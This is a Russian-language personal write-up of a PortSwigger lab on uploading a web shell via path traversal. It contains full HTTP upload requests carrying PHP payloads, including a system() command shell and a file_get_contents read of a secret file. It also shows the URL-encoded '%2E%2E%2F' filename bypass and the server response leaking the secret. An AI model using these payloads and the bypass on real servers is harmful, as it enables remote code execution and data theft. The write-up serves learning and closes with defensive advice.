


### Предотвращение выполнения файлов в доступных для пользователя каталогах

Хотя явно лучше предотвратить загрузку опасных типов файлов в первую очередь, вторая линия защиты заключается в том, чтобы остановить сервер от выполнения любых скриптов, которые проскальзывают через сеть.

В качестве меры предосторожности серверы, как правило, заполняют только скрипты, для выполнения которых они явно настроен тип MIME. В противном случае они могут просто вернуть какое-то сообщение об ошибке или, в некоторых случаях, вместо этого обслужить содержимое файла в виде обычного текста:

`GET /static/exploit.php?command=id HTTP/1.1 Host: normal-website.com HTTP/1.1 200 OK Content-Type: text/plain Content-Length: 39 <?php echo system($_GET['command']); ?>`

Такое поведение потенциально интересно само по себе, так как оно может обеспечить способ утечки исходного кода, но оно сводит на нет любую попытку создать веб-оболочку.

Этот вид конфигурации часто отличается в зависимости от каталогов. Каталог, в который загружаются файлы, предоставленные пользователем, скорее всего, будет иметь гораздо более строгие элементы управления, чем другие места в файловой системе, которые, как предполагается, находятся вне досягаемости для конечных пользователей. Если вы можете найти способ загрузить скрипт в другой каталог, который не должен содержать файлы, предоставленные пользователем, сервер все-таки может выполнить ваш скрипт.

#### Совет

Web servers often use the `filename` field in `multipart/form-data` requests to determine the name and location where the file should be saved.

--------


#### Web shell upload via path traversal
👉 лаба https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal
Сервер настроен на предотвращение выполнения файлов, предоставленных пользователем, но это ограничение можно обойти через path traversal

нужно достать файл /home/carlos/secret

---------


на сайте - есть форму для загрузки картинок


в html вижу, что скорее всего сервер будет требовать тип svg 
вот кусок html этой стр - что выше на скрине
```html
<p>

</p>
```

и вот мой запрос на загрузку svg файла на сервер
успешно загрузил svg файл на сервер - 
```http
POST /my-account/avatar HTTP/2
Host: 0af500c4048753ad8082b772008c0064.web-security-academy.net
Cookie: session=KSe1slkYm2934IuO6YT0tBen3zCrxdKi
Content-Length: 20150
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0af500c4048753ad8082b772008c0064.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJbeIuUNe6AUtu9Vk
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af500c4048753ad8082b772008c0064.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryJbeIuUNe6AUtu9Vk
Content-Disposition: form-data; name="avatar"; filename="Frame 14.svg"
Content-Type: image/svg+xml

<svg width="136" height="136" viewBox="0 0 136 136" fill="none" xmlns="http://www.w3.org/2000/svg">
<g clip-path="url(#clip0_129_28)">
<rect wid

... здесь просто был сам файл svg - обрезал его для отчета ... 

fill="white"/>
</g>
</g>
<defs>
<filter id="filter0_d_129_28" x="39.4961" y="39.5977" width="67.9531" height="75.3945" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<filter id="filter1_d_129_28" x="15.9688" y="25.8984" width="86.2969" height="105.617" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<filter id="filter2_d_129_28" x="39.8203" y="27.3066" width="81.6758" height="94.459" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<linearGradient id="paint0_linear_129_28" x1="34.4658" y1="102.508" x2="42.8616" y2="141.434" gradientUnits="userSpaceOnUse">
<stop offset="1"/>
</linearGradient>
<linearGradient id="paint1_linear_129_28" x1="68.0548" y1="-34.6861" x2="68.0548" y2="107.54" gradientUnits="userSpaceOnUse">
<stop stop-color="#F5F5F5"/>
<stop offset="0.452924" stop-color="#44A050"/>
<stop offset="1" stop-color="#171A17"/>
</linearGradient>
<clipPath id="clip0_129_28">
<rect width="136" height="136" fill="white"/>
</clipPath>
</defs>
</svg>

------WebKitFormBoundaryJbeIuUNe6AUtu9Vk
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryJbeIuUNe6AUtu9Vk
Content-Disposition: form-data; name="csrf"

doJVgZUmQj8dE6mbZ3Mj8zDI15sfZNYa
------WebKitFormBoundaryJbeIuUNe6AUtu9Vk--

```

ну и по этому запросу - я могу получать файлы с сервера
```http
GET /files/avatars/Frame%2014.svg HTTP/2
```

------

apache и nginx по умолчанию настроены на выполнение php, потому что это основной язык для веба на многих хостингах  
python и js обычно не выполняются напрямую сервером - для python нужен wsgi, для js нужен node.js

---------

---------

пробую прокинуть веб шел

`<?php echo file_get_contents('/home/carlos/secret'); ?>`

делаю запрос с 
```http
POST /my-account/avatar HTTP/2
Host: 0af500c4048753ad8082b772008c0064.web-security-academy.net
...
Priority: u=0, i

------WebKitFormBoundaryJbeIuUNe6AUtu9Vk
Content-Disposition: form-data; name="avatar"; filename="Frame 14.svg"
Content-Type: image/svg+xml

<?php echo file_get_contents('/home/carlos/secret'); ?> 👈

------WebKitFormBoundaryJbeIuUNe6AUtu9Vk
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryJbeIuUNe6AUtu9Vk
Content-Disposition: form-data; name="csrf"

doJVgZUmQj8dE6mbZ3Mj8zDI15sfZNYa
------WebKitFormBoundaryJbeIuUNe6AUtu9Vk--

```




пробую получить файл свой 
`https://0af500c4048753ad8082b772008c0064.web-security-academy.net/files/avatars/Frame%2014.svg`
но в ответе просто текст!
```http
HTTP/2 200 OK
Date: Thu, 19 Mar 2026 11:50:45 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Thu, 19 Mar 2026 11:50:41 GMT
Etag: "38-64d5f2d90b9c2"
Accept-Ranges: bytes
Content-Type: image/svg+xml
X-Frame-Options: SAMEORIGIN
Content-Length: 56

<?php echo file_get_contents('/home/carlos/secret'); ?>

```

пробовал вот так и разные комбинации этих двух заголовков
```
Content-Disposition: form-data; name="avatar"; filename="Frame 14.php"
Content-Type: image/php
```
но в ответ всегда приходят чисто текст! 

то есть код не выполняется на сервере!
возможно, в этой дирректории не получается, выполнить код
поэтому, я думаю, можно попробовать сохранить файл в другой дирректории

------------


пробую так
```http
...

Content-Disposition: form-data; name="avatar"; filename="/../Frame 14.php"
Content-Type: image/php

<?php echo file_get_contents('/home/carlos/secret'); ?>

...

```
ответ 200 - сохранено

пытаюсь прочесть
```http
GET /files/avatars/../Frame%2014.php HTTP/2
```

но овтет 404 
```xml
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 8b2b26858b05 Port 80</address>
</body></html>

```

но если такой запрос 
```http
GET /files/../avatars/Frame%2014.php HTTP/2
```
то ответ не 404 а ответ 400
```xml
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 8b2b26858b05 Port 80</address>
</body></html>

```


----------

кстати говоря, не блокируется вот такой способ сохранения файла 
```
Content-Disposition: form-data; name="avatar"; filename="zzz"; filename="Frame 15.php"
Content-Type: image/php
```
но при попытке получить файл `GET /files/avatars/zzz/Frame%2015.php HTTP/2` ответ 404 (The requested URL was not found on this server.)


-------


заметил особенность
сохраняю вот так
`Content-Disposition: form-data; name="avatar"; filename="/../frame 15.php"`
но файл сохраняется так - `The file avatars/frame 15.php has been uploaded`

но

стоит тупо закодировать слеши и точки
сохраняю так:
`Content-Disposition: form-data; name="avatar"; filename="%2E%2E%2Fframe 15.php"`
и ответ уже 
`The file avatars/../frame 15.php has been uploaded.`

проверяю, сработала дирректория новая

запрос
`GET /files/avatars/../frame%2015.php HTTP/2`

ответ 
```http
HTTP/2 200 OK
Date: Thu, 19 Mar 2026 12:18:27 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

cyeiy4szE0tFHbjmxj3sx3spGBK43Kop
```
СУПЕР!!!!!!
cyeiy4szE0tFHbjmxj3sx3spGBK43Kop

по новой дирректории - сервер выполнил мою команду!
а по основным базовым не выполнял!
то есть - была блокировка , типо черного списка дирректорий, где можно / нельзя выполнять скрипты


----




🍺  лаба решена!!!!!

-------

#### выводы

я смог взломать эту лабу потому что сервер блокировал выполнение php в директории для аватарок, но разрешал выполнение в других местах  

сначала я загрузил обычный svg и увидел что файлы сохраняются в /files/avatars/  

потом я попробовал загрузить php-шелл с расширением svg, но сервер не выполнял его, а просто отдавал код как текст  

значит директория avatars была настроена на отдачу статики без выполнения кода  (одна из базовых защит)

тогда я решил сохранить файл в другую директорию через path traversal в имени файла   и 
я отправил filename="%2E%2E%2Fexploit.php" где %2E это закодированная точка, а %2F это слеш  (`../`)

сервер раскодировал это и сохранил файл на уровень выше - в /files/exploit.php  

потом я обратился к /files/exploit.php и php-код выполнился, отдав секрет карлоса  

самое жесткое - что сервер не заблокировал path traversal и позволил выйти за пределы целевой папки

###### суть

во-первых, сервер доверял имени файла из запроса и не проверял наличие ../ или его кодированных версий  
во-вторых, url-кодирование %2E%2E%2F прошло через фильтры и раскодировалось сервером в ../  
в-третьих, в родительской директории /files/ выполнялись php-скрипты  
в-четвертых, сервер не имел белого списка разрешенных директорий для сохранения  
в-пятых, я смог легко угадать url сохраненного файла

#### как защититься  

нужно всегда проверять и санитизировать имена файлов, которые приходят от пользователя  
запрещать любые пути содержащие ../ или их кодированные версии  
лучше вообще не использовать оригинальные имена файлов - генерировать случайные  
сохранять файлы только в строго определенную директорию без возможности выхода из нее  
использовать белый список разрешенных символов в имени файла  
но самое главное - независимо от директории, пользовательские файлы не должны выполняться как код